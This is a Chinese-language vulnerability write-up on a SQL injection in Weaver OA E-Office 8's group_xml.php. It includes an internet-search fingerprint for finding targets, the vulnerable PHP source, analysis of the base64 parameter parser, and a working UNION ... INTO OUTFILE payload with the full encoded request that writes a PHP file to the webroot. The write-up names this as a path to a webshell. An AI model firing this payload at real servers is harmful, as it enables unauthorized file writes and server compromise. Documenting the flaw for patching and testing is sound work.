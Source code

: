 # 泛微OA E-Office group_xml.php SQL注入漏洞

## 漏洞描述

泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office 8 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383.png)

存在漏洞的文件为 `inc/group_user_list/group_xml.php`

```javascript
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid没有被双引号包裹，然后造成注入。然后$groupid来自于$pararr['groupid'];其中经过了$explodestpar这个函数

```javascript
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

构造EXP写入文件

```javascript
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```

![img](/assets/PeiQi-Wiki/img/1646124852775-28ff0359-2eee-4921-b752-4db7ebb49328.png)